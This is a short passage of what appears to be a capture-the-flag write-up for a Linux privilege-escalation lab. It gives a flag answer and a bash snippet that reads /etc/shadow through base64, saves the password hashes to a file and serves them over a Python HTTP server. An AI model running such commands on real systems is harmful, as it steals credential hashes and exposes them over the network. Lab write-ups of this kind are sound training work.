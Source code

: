 ![Guide image](./screenshots/linux-pri-esc-9.png)

**=> Answer: `gerryconway`**

- <p >
  What is the password of user2?</p>
- On target machine (AttackBox):

```bash
mktemp -d
cd /tmp/tmp.xxxxxxx
base64 /etc/shadow | base64 --decode >> passwords.txt

cat passwords.txt # to see the password decode file
python3 -m http.server 8000
```
